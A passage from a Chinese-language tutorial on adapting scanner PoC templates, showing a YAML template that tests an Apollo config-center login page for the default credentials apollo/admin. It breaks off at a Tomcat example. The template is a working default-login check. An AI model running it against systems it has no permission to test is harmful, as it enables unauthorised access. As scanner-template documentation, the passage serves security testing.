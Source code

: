 需要注意的是, tags填写的是fingers中存在的指纹, 如果指纹没有识别到, 将不会自动使用poc. 需要-E poc id 强制指定

```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo
```



**step2 and step3** 原本的poc中有两个包, 修改为一个. 最终成果

```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo

requests:
  - raw:
      - |
        POST /signin HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Origin: {{BaseURL}}
        Referer: {{BaseURL}}/signin?
        
        username={{user}}&password={{pass}}&login-submit=Login
    attack: pitchfork
    payloads:
      user:
        - apollo
      pass:
        - admin
    matchers-condition: and
    matchers:
      - type: word
        part: header
        negative: true
        words:
          -  '?#/error'
        condition: and

      - type: status
        status:
          - 302
```

**example 2 tomcat default login**
